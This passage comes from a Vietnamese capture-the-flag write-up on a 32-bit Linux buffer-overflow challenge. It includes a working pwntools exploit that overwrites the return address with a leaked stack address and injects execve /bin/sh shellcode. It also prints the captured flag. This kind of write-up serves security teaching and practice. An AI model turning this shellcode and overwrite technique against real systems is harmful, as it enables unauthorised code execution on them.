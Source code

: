 ![image](https://hackmd.io/_uploads/BylmEPqDp.png)


vậy chúng ta cần ghi đè giá trị ở đây là  0xf7dfbfa1 bằng địa chỉ của câu lệnh shellcode của chúng ta
=> chúng ta phải nhập 16 byte mới tới vị trí của hàm return và ghi đè 4 byte này 
mình lên https://defuse.ca/online-x86-assembler.htm#disassembly2 để viết shellcode được:
![image](https://hackmd.io/_uploads/ByNExbsDa.png)

![image](https://hackmd.io/_uploads/S1ioWWoD6.png)


![image](https://hackmd.io/_uploads/By2Jg-jPT.png)


```python=
#!/usr/bin/python3.7

from pwn import *

context.binary = exe = ELF('./Level03')

p = process(exe.path)

shellcode =b'\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80'
p.recvuntil(b'Cai nay ')
data = p.recv(8)
data = data.decode('utf8').strip()
data = "0x" + data
data = int(data, 16)
data += (16 + 4)
payload = b'A' *16
payload += p32(data) 
payload += shellcode
p.sendlineafter(b'khong?\n', payload)
p.sendline(b'cat flag')

p.interactive()
```
![image](https://hackmd.io/_uploads/ryU6tSqvp.png)
![image](https://hackmd.io/_uploads/SkZRFB9w6.png)

và mình lấy được flag là:
**KMA{b75d916e7d731cd88007584910214e1e}'**

## Level04

![image](https://hackmd.io/_uploads/SykXMpJvT.png)
đây là file chạy  32 bit trên linux

